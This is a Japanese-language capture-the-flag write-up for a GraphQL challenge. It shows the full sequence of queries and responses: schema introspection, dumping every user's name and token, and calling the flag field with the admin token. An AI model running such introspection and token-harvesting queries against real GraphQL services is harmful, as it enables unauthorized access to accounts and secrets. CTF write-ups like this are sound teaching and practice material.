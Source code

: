 # Writeup

[https://devme.be.ax](https://devme.be.ax/) にアクセスする。

ページ下部にあるメールアドレス入力フォームを押してみる。

![](img/2021-08-21-23-55-34.png)

すると、次のようなPOSTリクエストが送信される。

![](img/2021-08-21-23-56-33.png)

`/graphql`というエンドポイントがあることが分かったので、GraphQL injectionを試みる。

[参考]

* [SECCON Beginners 2020 Writeup (profiler, Somen)](https://www.ryotosaito.com/blog/?p=474)

queryを

```
query{__type(name: \"Query\"){name fields{name args{name type{name kind}} type{name kind ofType{name kind}}}}}
````

と書き換えると、次のようなレスポンスが返ってきた。

```json
{
    "data": {
        "__type": {
            "name": "Query",
            "fields": [
                {
                    "name": "users",
                    "args": [],
                    "type": {
                        "name": null,
                        "kind": "NON_NULL",
                        "ofType": {
                            "name": null,
                            "kind": "LIST"
                        }
                    }
                },
                {
                    "name": "flag",
                    "args": [
                        {
                            "name": "token",
                            "type": {
                                "name": null,
                                "kind": "NON_NULL"
                            }
                        }
                    ],
                    "type": {
                        "name": null,
                        "kind": "NON_NULL",
                        "ofType": {
                            "name": "String",
                            "kind": "SCALAR"
                        }
                    }
                }
            ]
        }
    }
}
```

`flag`に対してQueryを投げてみると、`token`が足りないと返される。

```
query {flag}

{"errors":[{"message":"Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided.","locations":[{"line":1,"column":8}]}]}
```

また、`token`は適当に入力しても情報は取得できない。

```
query {flag(token:\"hoge\")}

{"errors":[{"message":"Invalid token!","locations":[{"line":1,"column":8}],"path":["flag"]}],"data":null}
```

なので、Queryで`username`と`token`を取得する。

```
query{users{username}}

{"data":{"users":[{"username":"admin"},
...
...
...
]}}

query{users{token}}

{"data":{"users":[{"token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"},
...
...
...
]}}
```

`admin`の`token`を引数に入れて再度Queryを投げるとフラグが得られた。

```
query {flag(token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}

{"data":{"flag":"corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"}}
```

<!-- corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice} -->
